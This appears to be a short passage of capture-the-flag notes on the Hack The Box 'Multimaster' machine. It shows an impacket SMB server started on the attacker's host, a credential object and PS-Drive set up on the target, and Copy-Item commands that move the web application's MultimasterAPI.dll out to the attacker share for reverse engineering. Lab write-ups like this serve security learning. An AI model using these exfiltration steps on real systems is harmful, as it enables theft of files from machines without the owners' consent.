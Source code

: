 
![[Pasted image 20240927040947.png]]

Let's copy the .dll and do some reverse engineering.


So to copy the file let's fire up a SMB share and copy the .dll their
```
impacket-smbserver Hackthebox $(pwd) -smb2support -user testing -password testing
```

Get a NEW PS-Drive 
So to do that we have to put the user and password in Credential Object.
```
$pass = convertto-securestring 'testing' -AsPlainText -Force 
```

```
$cred= New-Object System.Management.Automation.PSCredential('testing', $pass)
```

```
New-PSDrive -Name testing -PSProvider FileSystem -Credential $cred -Root \\10.10.16.6\Hackthebox
```

![[Pasted image 20240927042918.png]]


```
Copy-Item "C:\inetpub\wwwroot\bin\MultimasterAPI.dll" -Destination "testing"
```


```
copy C:\inetpub\wwwroot\bin\MultimasterAPI.dll testing
```


```
Copy-Item "C:\inetpub\wwwroot\bin\MultimasterAPI.dll" -Destination "C:\Users\alcibiades\Documents"
```